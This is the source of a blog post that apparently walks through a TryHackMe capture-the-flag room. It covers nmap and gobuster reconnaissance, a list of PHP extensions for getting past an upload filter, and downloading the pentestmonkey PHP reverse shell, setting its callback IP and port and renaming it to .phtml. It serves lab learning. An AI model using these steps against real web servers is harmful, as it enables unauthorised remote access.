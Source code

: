 ```yaml
---
layout: post
title:  "TryHackMe Offensive Pentesting Path"
date:   2022-08-16
categories: 
---
```


{% capture details %}
* **Scan Target:** 
	* <code class="custom">
$ nmap -sV 0.0.0.0 <br>
-sV: Probe open ports to determine service/version info <br>
-0.0.0.0: IP address of target
</code>

	* | PORT | STATE | SERVICE | VERSION |
|:-----|:------|:--------|:--------|
| 3333/tcp | open | http | Apache httpd 2.4.18 ((ubuntu)) |
{: .customTable}

* **Discover Directories**
	* <code class="custom">
$ gobuster dir -u http://0.0.0.0:3333 -w /usr/share/wordlists/dirb/common.txt <br>
-u: Target URL <br>
-w: Wordlist
</code>

	* | DIRECTORY | STATUS |
|:----------|:-------|
|/internal  | 301    |
{: .customTable}

* **Visit URL**
	* ![Target URL Port 3333](/assets/targetPort3333.png){: .customImage}
{% endcapture %}
{: .section}
{% capture summary %} 
### Reconnaissance :artificial_satellite:
{% endcapture %}{% include details.html %}

{% capture details %}
* Create and attempt to upload file with *.php* extension
	* ![Upload shell.php](/assets/uploadShellphp.png)

* Create custom extension-list to test what file extensions can be uploaded
	*  <code class="custom">
$ cat phpext.txt <br>
.php <br>
.php3 <br>
.php4 <br>
.php5 <br>
.phtml 
</code>

* Use Burp Suite to enumerate through extensions and find out which ones are allowed

* Get PHP Reverse Shell from *pentestmonkey*
	* <code class="custom">
$ wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php <br><br>
Modify 'ip' and 'port' variables to your host machine's IP and netcat port you will use, respectively <br>
$ip = '127.0.0.1';  // CHANGE THIS <br>
$port = 1234;       // CHANGE THIS <br>
</code>

* Rename reverse shell file extension to allowed extension
	* <code class="custom">
$ mv php-reverse-shell.php php-reverse-shell.phtml
</code>

{% endcapture %}
{: .section}
{% capture summary %} 
### Compromise Webserver
{% endcapture %}{% include details.html %}